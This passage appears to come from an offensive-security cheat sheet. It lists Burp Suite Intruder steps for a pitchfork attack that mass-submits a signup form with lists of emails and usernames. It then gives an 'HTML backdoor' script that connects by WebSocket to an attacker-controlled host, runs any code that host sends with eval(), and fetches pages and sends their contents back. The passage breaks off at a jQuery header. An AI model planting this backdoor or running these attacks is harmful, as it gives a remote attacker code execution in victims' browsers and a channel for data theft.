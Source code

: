     * Step 2: signup page. Enter the Email, Username, and Password.
    * Step 3: Now open Burp Suite and turn on the intercept.
    * Step 4: In the browser, click on the ‘Sign Up’ button and intercept the request.
    * Step 5: Now send this request to Intruder (ctrl+i)
    * Step 6: Under the Intruder tab, click on the ‘positions’ option and clear all selected request parameters.
    * Step 7: Now select the email and username fields.
    * Step 8: Choose the attack type as ‘Pitch Fork’.
    * Step 9: Now click on the ‘payloads’ tab and choose payload set 1.
    Also set Payload Type to ‘Simple List’.
    * Step 10: Now under ‘Payload Options’ add payloads manually. After each payload, click on the ‘Add’ button to add another payload. You need to enter 10 email IDs here.
    * Step 11: Now choose payload set 2.
    * Step 12: Repeat the same steps from step 9 to step 10 for Payload set 2.
    * Step 13: Click on ‘Start Attack’. 

## <a name="2.7"></a>2.7 Server side attack HTML Backdoor

```html
<div id="content"></div>

<script type="text/javascript">
var obj;
var content = document.getElementById('content');
var socket = new WebSocket('ws://YOUR.DOMAIN:1337');
socket.onopen = function () {
	socket.send(JSON.stringify({'req': 'hi'}));
	//socket.send('hello from the client');
};

function handleObj(obj)
{
	if (obj.request == 'eval')
		eval(obj.content);
	else if (obj.request == 'get')
		$.ajax({url: obj.url})
		.done(function(h) { socket.send(JSON.stringify({'request': 'getresponse', 'html': h})); console.log(h); });
}

socket.onmessage = function (message) {
	content.innerHTML += message.data +'<br />';
	try { obj = JSON.parse(message.data); } catch(e) { }
	if (typeof(obj) === 'object')
		handleObj(obj);
};

socket.onerror = function (error) {
	console.log('WebSocket error: ' + error);
};
</script>

<script>
/*! jQuery v2.2.2 | (c) jQuery Foundation | jquery.org/license */
```